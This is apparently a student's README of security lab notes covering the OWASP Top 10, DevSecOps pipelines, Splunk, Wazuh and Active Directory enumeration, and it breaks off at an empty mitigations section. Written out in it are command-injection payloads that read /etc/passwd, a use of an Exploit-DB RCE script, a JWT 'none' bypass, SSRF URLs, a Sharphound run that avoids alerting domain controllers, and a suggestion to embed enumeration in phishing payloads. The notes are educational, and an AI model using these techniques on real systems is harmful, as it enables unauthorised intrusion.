


[💡 09/11/23: Industrial and Commercial Bank of China dealing with LockBit ransomware attack 💡](https://therecord.media/icbc-dealing-with-ransomware-attack)

# Security Expert Labs Documentation

### Contents

1. ✅ [OWASP Top 10 2021](#owasp-top-10-2021)
2. ✅ [OWASP Broken Access Control](#owasp-broken-access-control)
3. ✅[Classic DevSecOps pipeline](#classic-devsecops-pipeline)
4. [Cloud-native DevSecOps pipeline](#cloud-native-devsecops-pipeline)
5. ✅ [Splunk: Exploring SPL](#splunk-exploring-spl)
6. [Microsoft Sentinel Lab](#microsoft-sentinel-lab)
7. ✅ [Intro to Endpoint Security](#intro-to-endpoint-security)
8. ✅ [Wazuh](#wazuh)
9. ✅ [Active Directory Basics](#active-directory-basics)
10. ✅ [Enumerating Active Directory](#enumerating-active-directory)
11. ✅ [Active Directory Hardening](#active-directory-hardening)
12. ✅ [NTLM leak via Outlook](#ntlm-leak-via-outlook)
13. ✅ [CVE-2022-26923 AD Certificate Services](#cve-2022-26923-ad-certificate-services)
14. ✅ [Attacktive Directory](#attacktive-directory)

---
## OWASP Top 10 2021


### Broken Access Control

**What:** A regular visitor being able to access protected pages. Leads to:

- Being able to view sensitive information from other users
- Accessing unauthorized functionality

Broken access control allows attackers to bypass `authorisation`, allowing them to view sensitive data or perform tasks they aren't supposed to.

### IDOR Challenge
**IDOR** or `Insecure Direct Object Reference` refers to an access control vulnerability where you can access resources you wouldn't ordinarily be able to see. This occurs when the programmer exposes a `Direct Object Reference`, which is just an identifier that refers to specific objects within the server. Notice that direct object references aren't the problem, but rather that the application doesn't validate if the logged-in user should have access to the requested account.

Example: 
```
https://bank.thm/account?id=111111 <-- changing 111111 to 222222
https://bank.thm/account?id=222222 --> exposing private information
```

**Challenge:** `http://10.10.118.159/note.php?note_id=2` <-- note_id number was able to be manipulated

**Answer:** `http://10.10.118.159/note.php?note_id=0` --> flag{fivefourthree}

### Cryptographic Failures

A cryptographic failure refers to any vulnerability arising from the misuse (or lack of use) of cryptographic algorithms for protecting sensitive information. Web applications require cryptography to provide confidentiality for their users at many levels. 

```
"When we encrypt the network traffic between the client and server, we usually refer to this as encrypting data in transit.
To this end, your emails might also be encrypted when stored on the servers. This is referred to as encrypting data at rest."
```

**Challenge:**

The cryptographic failure was a failure to encrypt data at rest in this case. When looking in `/assets`, a db file was found. The information could be extracted with `sqlite3`.


Using CrackStation it was easily possible to crack the hash, password: `qwertyuiop`.

### Injection
Injection attacks depend on what technologies are used and how these technologies interpret the input. Some common examples include:

- SQL Injection: This occurs when user-controlled input is passed to SQL queries.
- Command Injection: This occurs when user input is passed to system commands.

The main defence for preventing injection attacks is ensuring that user-controlled input is not interpreted as queries or commands. There are different ways of doing this:

- Using an allow list
- Stripping input: If the input contains dangerous characters, these are removed before processing. (Sanitizing)

### Command Injection Challenge


Injection commands that were used:

```bash
$(whoami)
$(awk -F: '$3 >= 1000 {print $1}' /etc/passwd)
$(cat /etc/alpine-release)
```

### Insecure Design

**Example:** Instagram allowed users to reset their forgotten passwords by sending them a 6-digit code to their mobile number via SMS for validation. If an attacker wanted to access a victim's account, he could try to brute-force the 6-digit code. As expected, this was not directly possible as Instagram had rate-limiting implemented so that after 250 attempts, the user would be blocked from trying further. If an attacker had several different IP addresses from where to send requests, he could now try 250 codes per IP.

The challenge consisted of wild guessing Joseph's favourite colour

### Security Misconfiguration

Security misconfigurations include:

    - Poorly configured permissions on cloud services, like S3 buckets.
    - Having unnecessary features enabled, like services, pages, accounts or privileges.
    - Default accounts with unchanged passwords.
    - Error messages that are overly detailed and allow attackers to find out more about the system.
    - Not using HTTP security headers.

Accessing `<IP>:86/console` allowed to interact with the console. The statement used to read the contents of app.py was: 

```python
import os; print(os.popen("cat app.py").read())`
```

### Vulnerable and Outdated Components - Lab

Googling projectworld 2017 vulnerablity, the first link provides an RCE script: 
https://www.exploit-db.com/exploits/47887

This can be used as the password for the `admin` login. Full command for the online book store 

```sh
python3 /usr/share/exploitdb/exploits/php/webapps/47887.py http://<IP>:port
```

### Identification and Authentication Failures

Attacks include:
- Brute force attacks
- Use of weak credentials
- Weak Session cookies

**Practical:** Exploiting the possibility of re-registration (with slightly modified data), enables us to retrieve information from `darren` and `arthurs` account. By using a space ' ' before the name, registration was possible under an existing users name. 

### Software and Data Integrity Failures

**What is it:** Suppose you have a website that uses third-party libraries that are stored in some external servers. If an attacker hacks the external server repository they could change the content of the libraries being used. Anyone visiting the website would pull the malicious code.

**How to prevent it:** Modern browsers allow you to specify a hash along the library's URL so that the library code is executed only if the hash of the downloaded file matches the expected value. This security mechanism is called Subresource Integrity (SRI)

```javascript
<script src="https://code.jquery.com/jquery-3.6.1.min.js" integrity="sha256-o88AwQnZB+VDvE9tvIXrMQaPlFFSUTR+nldQm1LuPXQ=" crossorigin="anonymous"></script>
```

**Cookies** are key-value pairs that a web application will store on the user's browser and that will be automatically repeated on each request to the website that issued them. To make sure that the cookies haven't been altered by users, `JSON Web Tokens` (JWT) can help prove the integrity of a session. 


**JWT and the None Algorithm**
A data integrity failure was present on some libraries implementing JWT's a whie ago. JWT implements a signature to validate the integrty of a payload. To exploit the vulnerability, the header section `alg` needs to be `none`, and the signature removed.


Any decoding tool (like https://appdevtools.com/base64-encoder-decoder) that allows you to encode/decode base64 can help to manipulate the cookie.

### Security Logging and Monitoring Failures

Security Logging and Monitoring Failures have to do with `Accountability` (CIA(AA)). Logging is important because, in the event of an incident, the activites can be traced. Without logging, possible impacts include:

- Regulatory damage (affected users, fines)
- Risk of further attacks

The information in logs should include but is not limited to:

    - HTTP status codes
    - Time Stamps
    - Usernames
    - API endpoints/page locations
    - IP addresses

Common examples of suspiscious activity:

- Multiple unauthorised attempts for a particular action
- Requests form unusual/unknown IP addresses
- Use of automated tools, e.g.: using the value of `User-Agent` headers
- Common payloads

In the case of this room, a brute force was being carried out from ip: `49.99.13.16`

### Server-Side Request Forgery (SSRF)

This type of vulnerability occurs when an attacker can coerce a web application into sending requests on their behalf. SSRF vulnerabilities often arise from implementations where a web application needs to use third-party services. Example:

```html
https://www.mysite.com/sms?server=attacker.thm&msg=ABC
```
If an attacker could modify the `server` value, they could send a request to a machine they control on behalf of the server. 

SSRF can be used to:

    - Enumerate internal networks, including IP addresses and ports.
    - Abuse trust relationships between servers and gain access to otherwise restricted services.
    - Interact with some non-HTTP services to get remote code execution (RCE).

By changing the value for the `server=secure-file-storage` to localhost, it was possible to retrieve (with `netcat`) the API flag via a GET request:

```
<attackbox>:8087/download?server=0.0.0.0:8087&id=75482342
```
#### [Back to top](#contents)

---
## OWASP Broken Access Control


Access control is implemented to ensure that only authorized users have acces to resources. It can be implemented in different ways, common mechanisms include:

#### DAC - Discretionary Access Control

**What:** The resource owner determines who is allowed to access a resource and what actions are allowed to be performed. Commonly used in OS and file systems. 

#### MAC - Mandatory Access Control

**What:** Access to resrouces is determined by a set of predefined rules or policies enforced by the system. Commonly used in highly secure environment, such as govenment and military systems. Only specific individuals with particular security clearances can access certain resources.

#### RBAC - Role Based Access Control

**What:** Users are assigned roles that define their level of access to resources. Commonly used in enterprise systems, by users with different authority levels (e.g: managers, executives, sales staff, etc).

#### ABAC - Attribute-Based Access Control

**What:** Access to resources is determined by a sect of attributes, such as a user role, time of day, location, and device. Commonly used in cloud environments and web applications.

### Common exploits for Broken Access Control:

    - Horizontal privilege escalation --> accessing resources on same level but across
    - Vertical privilege escalation --> accessing resources higher up
    - Insufficient Access control checks --> Inconsistent access control checks leading to bypassing
    - Insecure direct object references --> Accessing a resource by exploiting a weakness in the control mechanisms, see [here](#idor-challenge)

### Practical

The web application features a register,login, and dashboard page. When registering, one is forwarded to the login page, and after successfuly logging in, the registration page is shown. Using The BurpSuite Proxy, it's possible to manipulate the `POST` and `GET` requests and proxy them towards the web application. 

By toggling the intercept after succesfully logging in, and setting the `/dashboard.php?isadmin=true` flag, the new user is able to receive admin rights.


### Mitigation

Severa setps can be taken to mitigate Broken Access Control Vulns in PHP applications:

1. **Implement RBAC**

A useful method of regulating access to resourcs based on roles:

```php
 $roles = [
     'admin' => ['create', 'read', 'update', 'delete'],
     'editor' => ['create', 'read', 'update'],
     'user' => ['read'],
 ];

 if (hasPermission('admin', 'delete')) {
     ...
 } 
```

2. **Use Parametrized Queries**

Prepared statement protect against SQL Injection. By using placeholders, a statement is prepared:

```php
$stmt = $pdo->prepare("SELECT * FROM users WHERE username=? AND password=?");
$stmt->execute([$username, $password]);
```

3. **Proper Session Management**

Ensures that authenticated users have timely and appropriate access to resources. Includes: Secure cookies, session timeouts, limiting number of active sessions:

```php
if (isset($_SESSION['last_activity']) && (time() - $_SESSION['last_activity'] > 1800)) {
     // Session has expired
}
```

4. **Use Secure Coding Practices**

Developers should sanitize and validate user input, and avoid using insecure functions or libraries.

#### [Back to top](#contents)

---
## Classic DevSecOps pipeline

Infrastructure:
* Ubuntu 18.04 Server as VirtualBox VM
* Jenkins installation with:

```
wget -q -O - https://pkg.jenkins.io/debian-stable/jenkins.io.key | sudo apt-key add -
sudo sh -c 'echo deb https://pkg.jenkins.io/debian-stable binary/ > /etc/apt/sources.list.d/jenkins.list'
sudo apt update
sudo apt install jenkins
sudo systemctl start jenkins
sudo ufw allow 8080
sudo ufw allow OpenSSH
```
Why Jenkins?

Jenkins supports several automation patterns. It adds a powerful set of automation tools onto Jenkins, supporting use cases that span from simple CI to comprehensive CD pipelines. The advantages of using CICD pipelines is:

* Durability
* Versatility
* Extensibility
* Pausability

The pipeline used in the lab:
```
pipeline {
    agent any
    stages {
        stage ('Compile Stage') {

            steps {
                withMaven(maven : 'maven_3_5_0') {
                    sh 'mvn clean compile'
                }
            }
        }
        stage ('Testing Stage') {

            steps {
                withMaven(maven : 'maven_3_5_0') {
                    sh 'mvn test'
                }
            }
        }
        stage ('Deployment Stage') {
            steps {
                withMaven(maven : 'maven_3_5_0') {
                    sh 'mvn deploy'
                }
            }
        }
    }
}
```

### SuiteCRM & SAST
SuiteCRM is a Customer Relationship Management tool, which has the following dependencies: PHP, MYSQL, Apache Web Server. `SAST` (Static Application Security Testing) is a process that analyses a projects source code, dependencies, and related files for known security vulnerabilities. 

Other usful plugins installed are for example `Snyk`, an open source security platform for detecting vulnerabilities in the source code of an application. The plugin integration can be added in the pipeline with:

```jenkins
stage ('Snyk Security'){
            steps {
                snykSecurity failOnIssues: false, snykInstallation: 'Snyk Security Plugin', snykTokenId: 'snyk-api-token'
                sh 'mv snyk_monitor_report.json /var/lib/jenkins/workspace/reports'
            }    
        }
```

### Software Composition Analysis
SCA is a term for a set of tools that provide users visibility into their inventory. The tools come in different forms and offer different capabilities. The important aspects of SCA tools are:

* Automatically track Open Source Components
* Continuous Monitoring
* Automated and Prioritized Vulnerability Remediation
* License Risk Management

### DAST
`Dynamic Application Security Testing` is a black-box testing technique in which a DAST tool interacts with a running application, imitating attacker techniques. Unlike static analysis, DAST allows for scans on the client and server-side, without needing the source code or framework that the application is run on. 

The full Jenkinsfile for the Lab can be found in `assets/`

#### [Back to top](#contents)

---
## Cloud-native DevSecOps pipeline


#### [Back to top](#contents)

---
## Splunk: Exploring SPL


Splunk is a powerful `SIEM solution` that provides the ability to search and explore machine data. **Search Processing Language (SPL)** is used to make the search more effective. It comprises various functions and commands used together to form complex yet effective search queries.

**Search & Reporting App** is the default interface used to search and analyze the data on the Splunk Home page.

1) **Search Head:** Search processing language queries to look for the data.

2) **Time Duration:** provides multiple options to select the time duration for the search. All-time will display the events in real-time.

3) **Search History:** saves the search queries that the user has run in the past along with the time when it was run. It lets the user click on the past searches and look at the result.

4) **Data Summary:** provides a summary of the data type, the data source, and the hosts that generated the events.

5) **Field Sidebar:** has two sections showing selected fields and interesting fields. Also provides quick results, such as top values and raw values against each field. Contains categories such as: `Interesting fields`, `Selected fields`, `Alpha-numeric fields` (that the field contains text values), `Numeric Fields '#'`, `Count`.

### Practical

Index being used: `index=Windowslogs`

Time stamps being applie: `4/15/22 8:05:00.000 AM - 4/15/22 8:06:00.000 AM`

### SPL Operators

| Field Name               | Operator                          | Example                   |
|--------------------------|-----------------------------------|---------------------------|
| Equal                    | =                                 | UserName=Mark             |
| Not Equal to             | !=                                | UserName!=Mark            |
| Less than                | <                                 | Age < 10                  |
| Less than or Equal to    | <=                                | Age <= 10                 |
| Greater than             | >                                 | Outbound_traffic > 50 MB  |
| Greater Than or Equal to | >=                                | Outbound_traffic >= 50 MB |
| NOT                      | field_A NOT value                 |                           |
| OR                       | field_A=value1 OR field_A=value2  |                           |
| AND                      | field_A=value1 AND field_B=value2 |                           |

**Example 1:** `index=windowslogs AccountName !=SYSTEM`

**Example 2:** `index=windowslogs AccountName !=SYSTEM AND AccountName=James`

### Practical

Used queries:

    - index=Windowslogs EventID="1" AND User=*James*
    - index=Windowslogs DestinationIp="172.18.39.6" AND DestinationPort="135"
    - index=windowslogs Hostname="Salena.Adam" DestinationIp="172.18.38.5"
    - index=windowslogs* cyber
    - index=windowslogs | table _time EventID Hostname SourceName | reverse
    - index=windowslogs | fields + host + User + SourceIp

### Filtering

|  Command  |           Example           |                                    Explanation                                    |
|:---------:|:---------------------------:|:---------------------------------------------------------------------------------:|
| fields    | fields + HostName - EventID | Used to add or remove mentioned fields from the search results.                   |
| search    | search "Powershell"         | This command is used to search for the raw text                                   |
| rename    | rename User as Employees    | It allows us to change the name of the field                                      |
| dedup     | dedup EventID               | The command used to remove duplicate fields from the search results               |
| head      | head 20                     | First 20 rows                                                                     |
| table     | -                           | Creates a table of the results                                                    |
| tail      | tail 20                     | Last 20 rows                                                                      |
| sort      | sort Hostname               | sorts on category                                                                 |
| reverse   | -                           | reverses order of events                                                          |
| top       | top 10                      | Top 10 results                                                                    |
| rare      | rare limit=3 EventID        | Opposite of top                                                                   |
| highlight | highlight User, host        | Shows the results in raw events mode with fields highlighted                      |
| chart     | chart count by User         | Used to transform the data into tables or visualizations                          |
| timechart | timechart count by Image    | Returns the time series chart covering the field. Often combined with STATS       |

### Stats

| Command | Explanation                                               | Syntax                            | Example                  |
|---------|-----------------------------------------------------------|-----------------------------------|--------------------------|
| Average | Used to calculate the average of the given field.         | stats avg(field_name)             | stats avg(product_price) |
| Max     | It will return the maximum value from the specific field. | stats max(field_name)             | stats max(user_age)      |
| Min     | It will return the minimum value from the specific field. | stats min(field_name)             | stats min(product_price) |
| Sum     | It will return the sum of the fields in a specific value. | stats sum(field_name)             | stats sum(product_cost)  |
| Count   | The count command returns the number of data occurrences. | stats count(function) AS new_NAME | stats count(source_IP)   |

#### [Back to top](#contents)

---
## Microsoft Sentinel Lab

TODO
https://github.com/Azure/Azure-Sentinel/tree/master/Solutions/Training/Azure-Sentinel-Training-Lab

#### [Back to top](#contents)

---
## Intro to Endpoint Security


This room gives an overview of determining a malicious activity from an endpoint and mapping its related events. The room covers:

* Endpoint Security Fundamentals
* Endpoint Logging and Monitoring
* Endpoint Log Analysis

### Core Windows Processes
Some core windows processes can be monitored with `Task Manager`, some of the normal running processes are:
Note: ">" symbol represents a parent-child relationship. `System (Parent) > smss.exe (Child)`

    - System
    - System > smss.exe
    - csrss.exe
    - wininit.exe
    - wininit.exe > services.exe
    - wininit.exe > services.exe > svchost.exe
    - lsass.exe
    - winlogon.exe
    - explorer.exe

### Sysinternals
Sysinternal tools are a compilation of over 70+ windows-based tools. The most used tools are `TCPView` and `Process Explorer`, but others include:

    - File and Disk Utilities
    - Networking Utilities
    - Process Utilities
    - Security Utilities
    - System Information
    - Miscellaneous

**TCPView:** Is a Windows Program that shows a listing of all `TCP` and `UDP` endpoints on the system, including local and remote addresses and state. It provides a more informatie subset of the `netstat` program, and includes `Tcpvcon`, a CLI version.

**Process Explorer:** Consists of two windows; the top window show currently active processes, and the bottom window depends on the mode that the eplorer is in. In `handle`, the handles that the selected processes have openend will be displayed, in `DLL` mode, the DLL's and moemory-mapped files are visible.

### Windows Event Logs
Event log data can be translated into XML using the Windows API. The events in these files are stored in a proprietary binary format with a `.evt` or `.evtx` extension, which typically reside in `C:\Windows\System32\winevt\Logs`. The three main ways of accessing these event logs are through:

* **Event Viewer** (GUI)
* **Wevtutil.exe** (CLI)
* **Get-WinEvent** (PS1)

### Sysmon
Is a tool commonly used by enterprises as part of their monitoring solutions. Sysmon is similar to Windows Event Logs but with more detail. It gathers logsand identifies anomalies, which makes it suitable for `SIEM`. Lastly, `Sysmon` includes 27 types of EventID's, which can be used within the required configuration files to specify how events should be handled and analyzed. 

### OSQuery
An Open-Source tool created by Facebook. Security Analysts, Incident Responders, and Threat Hunters can query an endpoint (or multiple) using `SQL`. Compatible with Windows, Linux, macOS, FreeBSD. `osqueryi` is the CLI command to get started. An example command would be:

```sql
select pid,name,path from processes where name='lsass.exe';
```

### Wazuh
Wazuh is an open-source, freely-available, scalable, and extensive EDR solution. It operates on a management and agent model where a dedicated manager device is responsible for managinhg installed agents on other devices. And EDR (Endpoint detection and response) tool can typically:

* Audit a device for common vulnerabilities
* Proactively monitor a device for suspicious activity
* Visualize complex data
* Record a device's normal oeprating behaviour

### Event Correlation
Identifies significant relationships from multiple log sources, such as application logs, endpoint logs, and network logs. For example, a network connection log may exist in various log sources such as Sysmon logs (Event ID 3: Network Connection) and Firewall Logs. Event Correlation can help to connect the dots in an incident investigation.

### Baselining
The process of knowing whats is expected to be normal. It requires a vast amount of data gatherin to establish the standard behaviour of user activities and netowk traffic.

In conclusion, this room covers the basic concepts of Endpoint Security Monitoring:

    - Endpoint Security Fundamentals tackled Core Windows Processes and Sysinternals.
    - Endpoint Logging and Monitoring introduced logging functionalities such as Windows Event Logging and Sysmon and monitoring/investigation tools such as OSQuery and Wazuh.
    - Endpoint Log Analysis highlighted the importance of having a methodology such as baselining and event correlation.

#### [Back to top](#contents)

---
## Wazuh


Wazuh operates on a management and agent model where the manager is responsible for managing agents installed on the devices you’d like to monitor. Devices that records the events and processes of a systems are called agents, and offload these to the manager (Wazuh)

To deploy new agents:

```
Wazuh -> Agents -> Deploy New Agent
```

Wazuh’s Vulnerability Assessment module is a powerful tool that can be used to periodically scan an agent's operating system for installed applications and their version numbers. Once this information has been gathered, it is sent back to the Wazuh server and compared against a database of CVEs. Wazuh is also capable of testing an agent's configuration against certain rulesets to check for compliance. 


Wazuh is capable of auditing and monitoring an agent's configuration whilst proactively recording event logs. When the Wazuh agent is installed, an audit is performed where a metric is given using multiple frameworks and legislations such as NIST, MITRE and GDPR. 

Wazuh alert logs are typically stored in `/var/ossec/logs/alerts/alerts.log`, and these can be searched manually with grep through CLI. 

We can use the Wazuh agent to aggregate these events recorded by Sysmon for processing to the Wazuh manager. We can use the Wazuh agent to aggregate these events recorded by Sysmon for processing to the Wazuh manager. Sysmon uses rules that are made in XML formatting to be triggered, so `Sysmon64.exe -accepteula -i detect_powershell.xml` needs to be executed to set yp the configuration.

### Linux
Wazuh comes with many rules that enable Wazuh to analyze log files and can be found in /var/ossec/ruleset/rules. Some common applications include:

    Docker
    FTP
    WordPress
    SQL Server
    MongoDB
    Firewalld
    And many, many more (approximately 900).

However, you can always make your own rules. In the room task, Wazuh digests Apache2 logs using the `0250-apache_rules.xml` ruleset.

### Auditing Commands
Wazuh utilizes the `auditd` package, which monitors the system for certain events and writes this to a log file. To install:

```sh
sudo apt-get install auditd audispd-plugins
sudo systemctl enable auditd.service
sudo systemctl start auditd.service
sudo auditctl -R /etc/audit/rules.d/audit.rules
```

The rules are located in `/etc/audit/rules.d/audit.rules`

### Using your own Client

The Wazuh API allows interaction with the management server. Some initial setup has to be done for this:

```sh
TOKEN=$(curl -u : -k -X GET "https://WAZUH_MANAGEMENT_SERVER_IP:55000/security/user/authenticate?raw=true")
curl -k -X GET "https://10.10.120.12:55000/" -H "Authorization: Bearer $TOKEN"
curl -k -X GET "https://10.10.120.12:55000/manager/status?pretty=true" -H "Authorization: Bearer $TOKEN" 
curl -k -X GET "https://10.10.120.12:55000/manager/configuration?pretty=true§ion=global" -H "Authorization: Bearer $TOKEN"
```

To interact with an agent:

```sh
curl -k -X GET "https://10.10.120.12:55000/agents?pretty=true&offset=1&limit=2&select=status%2Cid%2Cmanager%2Cname%2Cnode_name%2Cversion&status=active" -H "Authorization: Bearer $TOKEN"
```

### Reports and Sample Data
Reports can be generated under `Wazuh --> Modules --> Security Events --> Generate Report`, and these can be downloaded afterwards. 

Sample Data can be loaded into Wazuh under `Wazuh --> Settings --> Sample Data --> Add Data`

#### [Back to top](#contents)

---
## Active Directory Basics


Microsoft's Active Directory is the backbone of the corporate world. It simplifies the management of devices and users within a corporate environment. A Windows domain is a group of users and computers under the administration of a given business. The main idea behind a domain is to centralise the administration of common components of a Windows computer network in a single repository called Active Directory (AD). The server that runs the Active Directory services is known as a Domain Controller (DC).

The main advantages of having a configured Windows domain are:

    * Centralised identity management
    * Managing security policies


The core of any Windows domain is the `Active Directory Domain Service (ADDS)`.

**Users** are common object types, also known as one of the security principal objects in an AD, meaning that they can be authenticated and assigned privileges. Users can be either:

    * People
    * Services: like IIS or MSSQL. Requires a user to run, but will only have specific service-oriented privileges.

**Machines:** For every computer that joins, a machine object and account will be created. The rights within that account are limiteed, but the accounts themselves are local administrators on the assigned computer. Passwords are random 120 char passes and automatically rotated. The account name is the computer's name followed by a dollar sign, like `DC01$`.

**Security Groups:** Several groups are created by default in a domain, the most important ones are:

    - Domain Admins      --> Admin privileges over entire domain
    - Server Operators   --> Can administer DC's. Cannot change admin group memberships
    - Backup Operators   --> Are allowed to access any file, are used to perform backups
    - Account Operators  --> Can create or modify other accounts
    - Domain Users       --> All existing users in a domain
    - Domain Computers   --> All existing computers in a domain
    - Domain Controllers --> All existing DC's in a domain

**OU's** are handy for `applying policies` to users and computers, specific for role-based purposes. **SG's** are used to `grat permissions over resources`

### Practical

**Delegating Control** in AD to a specific OU can be done in 

`OU Right click --> Delegate Control --> Add --> <Name> --> Set Permissions --> Finish`

With a PS1 command the password can be reset for a specific user, granted the permission is in order:

```sh
Set-ADAccountPassword sophie -Reset -NewPassword (Read-Host -AsSecureString -Prompt 'New Password') -Verbose
Set-ADUser -ChangePasswordAtLogon $true -Identity sophie -Verbose
```

### Managing Computers in AD

Generally it is advised to divide the devices into three different categories:

    * Workstations
    * Servers
    * Domain Controllers

### Group Policies

The idea is to deplo different policies for each OU individually. These policies are managed through `Group Policy Objects (GPO)`. The name of the network share that distributes GPOs to domain machines is the `SYSVOL` volume. 

When using Windows domains, all credentials are stored in the Domain Controllers. There are two protocols for network authentication:

    - Kerberos: default
    - NetNTLM: legacy

### Kerberos
The user sends their username and a timestamp encrypted using a key derived from their `Key Distribution Center (KDC)`. The KDC will create and send back a `Ticket Granting Ticket (TGT)`, along with a `Session Key`. It is essential to know that the encrypted TGT includes a copy of the Session Key as part of its contents, and the KDC has no need to store the Session Key as it can recover a copy by decrypting the TGT if needed.

When a user wants to connect to a service, they will use the TGT to receive a `Ticket Granting Service (TGS)`. To request a TGS, the user will send their username and a timestamp encrypted using the Session Key, along with the TGT and a `Service Principal Name (SPN)`, which indicates the service and server name we intend to access.

As a result, the KDC will send us a TGS along with a `Service Session Key`, which we will need to authenticate to the service we want to access. The TGS is encrypted using a key derived from the `Service Owner Hash`. The Service Owner is the user or machine account that the service runs under. The TGS contains a copy of the Service Session Key on its encrypted contents so that the Service Owner can access it by decrypting the TGS.

The TGS can then be sent to the desired service to authenticate and establish a connection. The service will use its configured account's password hash to decrypt the TGS and validate the Service Session Key.


### NetNTLM


### Trees Forests, and Trust Relationships

Having multiple domains organised in trees and forest allows a compartmentalised network in terms of management and resources. If a domain in one tree wants access to a domain in another tree, a `trust relationship` has to be made first. These relationships can either be `one-way` or `two-way`. 

#### [Back to top](#contents)

---
## Enumerating Active Directory


Once AD credentials are somehow obtained, and the means to authenticate them on the network, other things become possible. Usually this leads to privilege escalation or lateral movement to gain additional access. Enumeration and Exploitation therefore go hand in hand. The room will cover the following topics:

* The AD snap-ins of the Microsoft Management Console.
* The net commands of Command Prompt.
* The AD-RSAT cmdlets of PowerShell.
* Bloodhound.

### Credential Injection - Runas
Runas is a command-line tools built into mostly older Windows Systems (cutoff Windows 8). It can run programs, manage files, access network resources with the security credentials of another user or administrator. 

If there are AD credentials in the form of `:`, it's possible to use Runas (a legitimate Windows binary) to inject credentials into memory. A typical runas command would be: 

`runas.exe /netonly /user:<domain>\<username> cmd.exe`

* **/netonly** - The credentials for network authentication should be loaded, any network connections will occur using the specified account.
* **/user** - The details of the domain an username. It's always a safe bet to use the FQDN instead of NetBIOS since this will help with resolution. 
* **/cmd.exe** - The program to execute once credentials are injected. `cmd.exe` is a safe bet, as you can then proceed to launch other commands afterwards. 

Once run, the credentials will not be verified by a DC since using `/netonly`.

### DNS
Any account can read the contents of `SYSVOL`, a folder that exists on all DC's. It's a shared folder storing the GPOs and information along with any other domain related scripts. It's an essential AD componet since it delivers GPOs to all domain-related computers. Before being able to list SYSVOL, DNS has to be configured. To conifgure DNS manually:

```Powershell
$dnsip = "<DC IP>"
$index = Get-NetAdapter -Name 'Ethernet' | Select-Object -ExpandProperty 'ifIndex'
Set-DnsClientServerAddress -InterfaceIndex $index -ServerAddresses $dnsip
```

### IP vs. Hostnames
When providing a hostname, networking authentication will first attempt to use Kerberos authentication. Sinc Kerberos authentication uses hostames embedded in tickets, if an IP is provided, the authentication can be forced to be NTLM. 

### Microsoft Management Console
The MMC can be used with `Remote Server Administration Tools (RSAT)` AD Snap-Ins. To download:

`Apps & Features --> Manage Optional Features --> Add --> RSAT`

With relevant permissions, it could be possible to make changes directly to AD with MMC the benefits outweigh the disadvantages:

Benefits

* The GUI provides an excellent method to gain a holistic view of the AD environment.
* Rapid searching of different AD objects can be performed.
* It provides a direct method to view specific updates of AD objects.
* If we have sufficient privileges, we can directly update existing AD objects or add new ones.

Drawbacks

* The GUI requires RDP access to the machine where it is executed.
* Although searching for an object is fast, gathering AD wide properties or attributes cannot be performed.

### Enumerating Through Cmd Prompt & Powershell
The Cmd Prompt is useful if other tools fail, and can be helpful to embed a couple of simple AD enumeration commands in a phishing payload. The builtin command `net` is a handy tool to enumerate information about the local systm and AD. `group` is a sub-option for `net`, and can be useful for enumeration AD groups, as is `accounts`.

Powershell has all the standard functionality that Cmd Prompt provides, plus access to cmdlets, .NET classes to perform specific functions. Handy enumeration commands used in the lab are:

```Powershell
PS C:\> Get-ADUser -Identity gordon.stevens -Server za.tryhackme.com -Properties *
PS C:\>
PS C:\> Get-ADUser -Filter 'Name -like "*stevens"' -Server za.tryhackme.com | Format-Table Name,SamAccountName -A
PS C:\>     
PS C:\> Get-ADGroup -Identity Administrators -Server za.tryhackme.com
PS C:\>
PS C:\> Get-ADGroupMember -Identity Administrators -Server za.tryhackme.com
PS C:\>
PS C:\> $ChangeDate = New-Object DateTime(2022, 02, 28, 12, 00, 00)
PS C:\> Get-ADObject -Filter 'whenChanged -gt $ChangeDate' -includeDeletedObjects -Server za.tryhackme.com
PS C:\>
PS C:\> Get-ADObject -Filter 'badPwdCount -gt 0' -Server za.tryhackme.com
PS C:\>
PS C:\> Get-ADDomain -Server za.tryhackme.com

#AD Objects
PS C:\>$modifiedDate = Get-Date '2022/02/28'
PS C:\>Get-ADObject -Filter "whenChanged -ge $modifiedDate" -IncludeDeletedObjects

#Change a User Password
PS C:\>$oldPass = Read-Host -AsSecureString -Prompt 'Enter the old password'
PS C:\>$newPass = Read-Host -AsSecureString -Prompt 'Enter the new password'
PS C:\>Set-ADAccountPassword -Identity user.name -OldPassword $oldpPass -NewPassword $newPass
```

Benefits

* The PowerShell cmdlets can enumerate significantly more information than the net commands from Command Prompt.
* We can specify the server and domain to execute these commands using runas from a non-domain-joined machine.
* We can create our own cmdlets to enumerate specific information.
* We can use the AD-RSAT cmdlets to directly change AD objects, such as resetting passwords or adding a user to a specific group.

Drawbacks

* PowerShell is often monitored more by the blue teams than Command Prompt.
* We have to install the AD-RSAT tooling or use other, potentially detectable, scripts for PowerShell enumeration.

### Bloodhound
Bloodhound is probably the most powerful AD enumeration tool to date, having changed the AD enumeration landscape forever since its release in 2016. 

#### Graph-like thinking
Bloodhound visualizes AD environments in a graph format with interconnected nodes, ranked in terms of privilege. This graph-based approach allows for a two-stage attack: initial entry via phishing (for example), quick banishment by a hopefully quick responding Blue team, and then a targeted second attack, where the enumeration info from the initial attack was planned out. 

`Sharphound` is the enumeration tool of Bloodhound. It's used to enumerate information to visually display in Bloodhound, where Bloodhound is the GUI. The different collectors are:

* Sharphound.ps1
* Sharphound.exe
* AzureHound.ps1

Can be used like this for example: `Sharphound.exe --CollectionMethods <Methods> --Domain za.tryhackme.com --ExcludeDCs`

Parameters explained:

* CollectionMethods - What kind of data Sharphound should collect
* Domain - The domain to enumerate
* ExcludeDCs - Not touch DCs, reducing the likelihood of alerting

### Additional Enumeration Techniques

* **LDAP Enumeration** - Any valid AD crdential shoul dbe able to bind to a DC LDAP interface, further allowing querying
* **PowerView** - Recon script part of the `PowerSploit` project
* **Windows Management Istrumentation** - A WMI can be used to enumerate info regarding Windows Hosts, with a provider called `root\directory\ldap` that can be used to interact with AD. 

### Mitigations

